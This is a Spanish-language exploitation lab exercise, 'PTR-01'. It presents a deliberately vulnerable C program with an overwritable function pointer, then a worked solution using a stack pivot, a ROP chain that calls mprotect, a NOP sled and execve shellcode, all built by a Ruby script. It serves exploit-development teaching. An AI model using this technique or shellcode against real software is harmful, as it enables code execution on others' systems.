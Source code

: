 # PTR-01

**Objetivo**: Lograr que el programa listado a continuación muestre "Hello, world!" en la terminal. Como siempre, no se permite modificar el código ni el binario compilado.

```c
// ptr-01.c

#include <sys/types.h>
#include <sys/stat.h>
#include <sys/mman.h>
#include <unistd.h>
#include <stdio.h>
#include <fcntl.h>

/*
 * Nota: utilizamos un FIFO porque es la forma más simple de leer datos binarios
 * luego de emitir mensajes por salida estándar, dando la oportunidad de generar
 * la entrada en función de los datos emitidos.
 *
 */
char *fifo_path = "/tmp/ptr-01-input";

int start_fifo() {
  mkfifo(fifo_path, 0600);
  return open(fifo_path, O_RDONLY);
}

void finish_fifo(int fd) {
  close(fd);
  unlink(fifo_path);
}

void aid() {
  asm("pop %rdi; ret");
  asm("pop %rsi; ret");
  asm("pop %rdx; ret");
}

void hint() {
  asm("xchg %rsi, %rsp; ret");
}

int main(int argc, char **argv) {
  void (*fn)() = 0;
  char buffer[1024];

  /* Supongamos que contamos con primitivas potentes de lectura. Utilizando
   * dichas primitivas logramos leer los siguientes valores:
   */
  printf("\n");

  printf("&mprotect\n");
  printf("%p\n\n", &mprotect); 

  printf("&buffer\n");
  printf("%p\n\n", &buffer);
    
  printf("&aid\n");
  printf("%p\n\n", &aid);
  
  
  /* Escribir a /tmp/ptr01-input una entrada que logre que este programa
   * muestre el mensaje "Hello, world!" en la terminal.
   */
  int fifo = start_fifo();
  read(fifo, &fn, 8);
  read(fifo, &buffer, 1024);
  finish_fifo(fifo);

  fn();
  return 0;
}
```



## Solución

En ejercicios anteriores vimos cómo era posible utilizar la técnica llamada ROP para vencer a W^X. Lo que hacíamos en esos casos era escribir una cadena de direcciones de gadgets, entremezcladas con datos convenientes, a partir de una dirección de retorno en el stack. Con ésto lograbamos que, cuando la correspondiente función retornara, la ejecución de la cadena efectivizara nuestro payload.

En este ejercicio, sin embargo, la situación es diferente. En este caso, si bien contamos con la posibilidad de escribir datos en un buffer, no contamos con la posiblidad de desbordarlo para corromper el correspondiente frame. Observaremos, sin embargo, que tenemos efectivamente la posibilidad de modificar un puntero a función, la cuál será luego ejecutada.

Clásicamente, cuando uno modificaba un puntero a función, podía hacerlo apuntar directamente a shellcode inyectado o en el stack o en el heap. Hoy en día, sin embargo, resulta necesario aplicar primero alguna técnica de reutilización de código como ROP para vencer a W^X.  Oportunamente, la solución de este ejercicio es bastante simple, como veremos a continuación.

Compilamos primero el binario con gcc

```bash
gcc  ptr-01.c -o ptr-01
```

y lo analizamos con objdump:

```bash
objdump -M intel -d ptr-01
```

![dump](img/dump.png)

La sección relevante del código de la función `main` es el que resaltamos en la captura. Observaremos que en la llamada a `read` guardamos en el registro rsi la dirección del buffer en el cuál serán guardados los datos. Si prestamos atención, no hay instrucción que vuelva a cambiar el valor del registro hasta el final de la función. Esto implica que, al momento de llamar a `fn` con la instrucción `call rdx`, en el registro rsi estará efectivamente la dirección de nuestro buffer. ¿Qué ocurriría entonces si, por algún motivo misterioso, se ejecutara en ese instante la instrucción `xchg rsi, rsp`? Lo que ocurrirá en tal caso es que el puntero al tope del stack pasará a apuntar al inicio de nuestro buffer, donde podremos haber inyectado una cadena de ROP, seguida por un bloque de shellcode. La técnica en cuestión se llama **stack pivot**, y consiste justamente en reemplazar al stack real por un stack corrupto controlado por el atacante.

Tomaremos entonces el script en Ruby que habíamos utilizado en la solución del ejercicio [rop-01](../../xploit/rop-01/rop-01.md) y le haremos algunas modificaciones para contemplar el pivote:

```ruby
#!/usr/bin/ruby

# generate-input.rb

payload = 
"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00" +
"\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8" +
"\x13\x00\x00\x00\x65\x63\x68\x6f\x20\x48\x65\x6c\x6c\x6f" +
"\x2c\x20\x77\x6f\x72\x6c\x64\x21\x00\x56\x57\x48\x89\xe6" +
"\x0f\x05".force_encoding("ASCII-8BIT")


# Completar con la dirección de mprotect
addr_mprotect = 0x0

# Completar con la dirección del buffer
addr_buffer = 0x0

# Completar con la dirección de aid
addr_aid = 0x0


# Generamos la cadena. Todos los valores estarán en formato little endian.
chain = [
    addr_aid + 4,
    addr_buffer & ~0xfff,
    addr_aid + 6,
    0x100,
    addr_aid + 8,
    0x7,
    addr_mprotect,
    addr_buffer + 128 # mprotect retornará cerca de la mitad del nopsled.
]

# Calculamos la dirección de xchg rsi,rsp en base a la dirección de aid.
addr_pivot = [addr_aid + 17].pack(">Q")

# Ponemos un nopsled antes del payload.
payload = ("\x90"*256 + payload).force_encoding("ASCII-8BIT")

# Generamos el exploit.
puts addr_pivot + chain.pack(">Q*") + payload
```



Ejecutamos entonces el programa para tomar nota de las direcciones:

![run](img/run.png)



Reemplazamos los valores en el script, en este caso los siguientes:

```ruby
# Completar con la dirección de mprotect
addr_mprotect = 0x7fd7e8901ae0

# Completar con la dirección del buffer
addr_buffer = 0x7fffd0f4a220

# Completar con la dirección de aid
addr_aid = 0x55dcd1b4f954
```



Procedemos ahora a ejecutar el script, enviando la salida al fifo:

```bash
chmod u+x generate-input.rb && ./generate-input.rb > /tmp/ptr01-input
```

Deberíamos observar entonces algo como lo siguiente:

![win](img/win.png)



Observamos que nuestro payload se ejecuta satisfactoriamente, concluyendo el ejercicio.



## Conclusión

Con este ejercicio hemos adquirido una técnica que nos permitirá lanzar cadenas de ROP incluso cuando no tenemos control de la dirección de retorno de de algún frame. Hay que tener en cuenta, sin embargo, que el gadget que utilizamos para lograr nuestro pivote no es precisamente ubicuo. Si bien en otros sistemas operativos es mucho más fácil, en Linux pivotear puede requerir un trabajo de ingeniería no trivial, transicionando a ROP desde otras técnicas de reutilización de código más sofisticadas; en el siguiente ejercicio estaremos viendo un caso concreto en detalle. Adicionalmente, a partir de ahora estaremos construyendo nuestros exploits en base a gadgets provenientes de bibliotecas externas en vez de embeberlos en el programa objetivo. Será entonces un buen momento para familiarizarse con herramientas como ROPgadget, ropper y/o BARF.